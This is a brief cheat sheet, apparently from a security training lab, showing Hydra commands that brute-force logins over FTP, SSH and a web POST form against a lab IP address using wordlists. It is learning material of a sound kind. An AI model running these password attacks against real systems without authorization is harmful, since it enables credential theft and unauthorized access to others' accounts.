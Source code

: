 Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.

FTP
> hydra -l user -P passlist.txt ftp://10.10.149.128

SSH
> hydra -l <username> -P <full path to pass> 10.10.149.128 -t 4 ssh

Post Web Form
> hydra -l <username> -P <wordlist> 10.10.149.128 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

